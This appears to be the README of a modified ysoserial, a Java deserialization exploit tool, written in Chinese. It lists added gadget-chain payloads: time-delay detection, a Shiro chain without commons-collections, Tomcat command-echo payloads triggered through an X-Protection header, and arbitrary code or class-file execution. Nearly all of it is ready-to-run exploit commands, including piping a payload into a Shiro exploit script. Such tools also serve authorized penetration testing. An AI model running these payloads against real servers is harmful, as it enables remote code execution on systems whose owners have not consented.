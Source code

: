 # 修改版ysoserial


## 一.新增时间延迟检测payload  

1.CommonsBeanutils1_Time  
2.CommonsCollections1_Time  
3.CommonsCollections2_Time  
4.CommonsCollections3_Time  
5.CommonsCollections4_Time  
6.CommonsCollections5_Time  
7.CommonsCollections6_Time  
8.CommonsCollections7_Time

Example:  
```java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1_Time 9000   #以ms为单位，9000表示延迟9秒```


## 二.新增无commons-collections依赖的commons-beanutils  
1.CommonsBeanutils1Shiro      #主要用于解决Shiro反序列化无commons-collections依赖问题  

Reference:  
https://www.leavesongs.com/PENETRATION/commons-beanutils-without-commons-collections.html


## 三.新增Tomcat回显payload
1.CommonsBeanutils1_TomcatEcho  
2.CommonsBeanutils1Shiro_TomcatEcho    #无commons-collections依赖的commons-beanutils回显  

Example:  
```python shiro_exp.py `java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1Shiro_TomcatEcho | base64` ```  
需要在头部添加X-Protection字段执行命令
![image](https://github.com/M-Kings/ysoserial/blob/main/IMG/1.png)


Ps:    
目前只写了两个回显的例子，同理可实现其他payload的回显，懒得写了，后续再更新


## 四.扩展代码执行
1.code mode  
command以code:开头,传入需要执行的自定义代码  
Example:  
```java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 'code:Thread.currentThread().sleep(9000L);'```

1.class file mode  
command以classfile:开头,传入编译好的Exp的class文件  
Example:  
```java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 'classfile:exp.class'```

Reference:  
http://gv7.me/articles/2019/enable-ysoserial-to-support-execution-of-custom-code/

## 五.解决命令管道、重定向符问题
原ysoserial不支持使用管道、重定向符，如以下命令是不行的:  
```java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 "echo 123 >/tmp/123"```

改了之后支持命令管道和重定向符问题,支持使用多参数命令传入:  
```java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 "bash" "-c" "echo 123 >/tmp/123"```
